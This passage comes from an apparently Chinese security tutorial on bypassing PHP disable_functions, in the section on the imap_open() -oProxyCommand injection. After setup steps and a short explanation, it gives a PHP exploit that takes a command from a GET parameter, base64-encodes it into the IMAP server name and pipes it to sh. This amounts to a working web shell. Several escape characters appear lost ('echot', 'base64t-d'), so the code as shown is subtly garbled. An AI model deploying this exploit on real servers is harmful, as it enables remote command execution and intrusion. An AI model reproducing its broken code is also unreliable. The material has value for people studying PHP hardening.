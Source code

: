 包含文件执行

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002017-590093ae-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002017-590093ae-fc52-1.png)

# 0x09 利用imap_open()绕过

利用条件需要安装iamp扩展,命令行输入:`apt-get install php-imap`
在php.ini中开启imap.enable_insecure_rsh选项为On；重启服务。

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002025-5d85c368-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814002025-5d85c368-fc52-1.png)

基本原理为:

```
PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。
```

EXP:

```
<?php 
error_reporting(0); 
if (!function_exists('imap_open')) { 
die("no imap_open function!"); 
} 
$server = "x -oProxyCommand=echot" . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . "|base64t-d|sh}"; 
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . '|base64$IFS$()-d|sh}'; 
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or
var_dump("nnError: ".imap_last_error()); 
sleep(5); 
```